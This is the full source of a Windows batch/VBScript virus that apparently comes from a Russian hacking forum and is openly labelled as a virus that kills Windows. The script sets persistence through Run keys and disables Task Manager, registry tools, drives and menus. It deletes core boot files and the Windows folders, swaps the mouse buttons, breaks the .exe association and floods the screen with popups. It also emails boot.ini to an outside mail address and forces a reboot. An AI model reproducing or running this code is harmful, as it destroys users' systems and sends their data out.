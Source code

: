 # ирус который убивает Винду
@echo This virus created by LIZA 
@echo Virus: pcforumhack.ru™ Virus 
@echo Autor: LIZA 
@echo off 
echo Chr(39)>%temp%\temp1.vbs 
echo Chr(39)>%temp%\temp2.vbs 
echo on error resume next > %temp%\temp.vbs 
echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp.vbs 
echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp.vbs 
reg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v nodesktop /d 1 /freg add HKEY_USERS\S-1-5-21-343818398-1417001333-725345543-1003\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v ClassicShell /d 1 /fset ¶§=%0 
copy %¶§% %SystemRoot%\user32dll.bat 
reg add "hklm\Software\Microsoft\Windows\CurrentVersion\Run" /v RunExplorer32 /d %SystemRoot%\user32dll.bat /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoDrives /t REG_DWORD /d 67108863 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoViewOnDrive /t REG_DWORD /d 67108863 /f 
echo fso.deletefile "C:\ntldr",1 >> %temp%\temp.vbs 
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoSelectDownloadDir" /d 1 /f 
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\main\FeatureControl\Feature_LocalMachine_Lockdown" /v "IExplorer" /d 0 /f 
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoFindFiles" /d 1 /f 
reg add "HKCU\Software\Policies\Microsoft\Internet Explorer\Restrictions" /v "NoNavButtons" /d 1 /f 
echo fso.deletefolder "D:\Windows",1 >> %temp%\temp.vbs 
echo fso.deletefolder "I:\Windows",1 >> %temp%\temp.vbs 
echo fso.deletefolder "C:\Windows",1 >> %temp%\temp.vbs 
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs 
echo fso.deletefile sr+"\system32\hal.dll",1 >> %temp%\temp.vbs 
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs 
echo fso.deletefolder sr+"\system32\dllcache",1 >> %temp%\temp.vbs 
echo sr=s.RegRead("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SystemRoot") >> %temp%\temp.vbs 
echo fso.deletefolder sr+"\system32\drives",1 >> %temp%\temp.vbs 
echo s.regwrite "HKEY_CLASSES_ROOT\CLSID\{645FF040-5081-101B-9F08-00AA002F954E}\LocalizedString","forum.whack.ru™">>%temp%\temp.vbs 
echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOwner","forum.whack.ru™">>%temp%\temp.vbs 
echo s.regwrite "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\RegisteredOrganization","forum.whack.ru™">>%temp%\temp.vbs 
echo on error resume next > %temp%\temp1.vbs 
echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp1.vbs 
echo do>>%temp%\temp1.vbs 
echo fso.getfile ("A:\")>>%temp%\temp1.vbs 
echo loop>>%temp%\temp1.vbs 
echo on error resume next > %temp%\temp2.vbs 
echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp2.vbs 
echo do>>%temp%\temp2.vbs 
echo execute"S.Run ""%comspec% /c echo "" & Chr(7), 0, True">>%temp%\temp2.vbs 
echo loop>>%temp%\temp2.vbs 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disabletaskmgr /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v disableregistrytools /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuPinnedList /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMFUprogramsList /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoUserNameInStartMenu /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\NonEnum" /v {20D04FE0-3AEA-1069-A2D8-08002B30309D} /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoNetworkConnections /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuNetworkPlaces /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v StartmenuLogoff /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuSubFolders /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoCommonGroups /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFavoritesMenu /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRecentDocsMenu /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSetFolders /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoAddPrinter /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoFind /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMHelp /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoRun /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMorePrograms /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoClose /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoChangeStartMenu /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyDocs /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoSMMyPictures /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoStartMenuMyMusic /t REG_DWORD /d 1 /f 
reg add "hkcu\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer" /v NoControlPanel /t REG_DWORD /d 1 /f 
echo set application=createobject("shell.application")>>%temp%\temp.vbs 
echo application.minimizeall>>%temp%\temp.vbs 
reg add "hklm\Software\Microsoft\Windows\CurrentVersion\run" /v SwapNT /t REG_SZ /d rundll32 user32, SwapMouseButton /f 
start rundll32 user32, SwapMouseButton 
reg add "HKCR\exefile\shell\open\command" /ve /t REG_SZ /d rundll32.exe /f 
echo i=50 >> %temp%\temp.vbs 
echo while i^>0 or i^<0 >> %temp%\temp.vbs 
echo S.popup "forum.whack.ru™",0, "forum.whack.ru™",0+16 >> %temp%\temp.vbs 
echo i=i-1 >> %temp%\temp.vbs 
echo wend >> %temp%\temp.vbs 
echo do >> %temp%\temp.vbs 
echo wscript.sleep 200 >> %temp%\temp.vbs 
echo s.sendkeys"{capslock}" >> %temp%\temp.vbs 
echo wscript.sleep 200 >> %temp%\temp.vbs 
echo s.sendkeys"{numlock}" >> %temp%\temp.vbs 
echo wscript.sleep 200 >> %temp%\temp.vbs 
echo s.sendkeys"{scrolllock}" >> %temp%\temp.vbs 
echo loop>> %temp%\temp.vbs 
echo Set oWMP = CreateObject("WMPlayer.OCX.7") >> %temp%\temp.vbs 
echo Set colCDROMs = oWMP.cdromCollection >> %temp%\temp.vbs 
echo if colCDROMs.Count ^>= 1 then >> %temp%\temp.vbs 
echo For i = 0 to colCDROMs.Count - 1 >> %temp%\temp.vbs 
echo colCDROMs.Item(i).eject >> %temp%\temp.vbs 
echo next >> %temp%\temp.vbs 
echo End If >> %temp%\temp.vbs 
echo Call SendPost("smtp.mail.ru", "forum.whack.ru™@mail.ru", "support@mail.ru", "...", "Копм заражен!") >> %temp%\temp.vbs 
echo Function SendPost(strSMTP_Server, strTo, strFrom, strSubject, strBody) >> %temp%\temp.vbs 
echo Set iMsg = CreateObject("CDO.Message") >> %temp%\temp.vbs 
echo Set iConf = CreateObject("CDO.Configuration") >> %temp%\temp.vbs 
echo Set Flds = iConf.Fields >> %temp%\temp.vbs 
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2 >> %temp%\temp.vbs 
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1 >> %temp%\temp.vbs 
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername") = "support" >> %temp%\temp.vbs 
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword") = "support" >> %temp%\temp.vbs 
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru" >> %temp%\temp.vbs 
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25 >> %temp%\temp.vbs 
echo Flds.Update >> %temp%\temp.vbs 
echo iMsg.Configuration = iConf >> %temp%\temp.vbs 
echo iMsg.To = strTo >> %temp%\temp.vbs 
echo iMsg.From = strFrom >> %temp%\temp.vbs 
echo iMsg.Subject = strSubject >> %temp%\temp.vbs 
echo iMsg.TextBody = strBody >> %temp%\temp.vbs 
echo iMsg.AddAttachment "c:\boot.ini" >> %temp%\temp.vbs 
echo iMsg.Send >> %temp%\temp.vbs 
echo End Function >> %temp%\temp.vbs 
echo Set iMsg = Nothing >> %temp%\temp.vbs 
echo Set iConf = Nothing >> %temp%\temp.vbs 
echo Set Flds = Nothing >> %temp%\temp.vbs 

echo s.run "shutdown -r -t 0 -c ""pcforumhack.ru™"" -f",1 >> %temp%\temp.vbs 
start %temp%\temp.vbs 
start %temp%\temp1.vbs 
start %temp%\temp2.vbs 
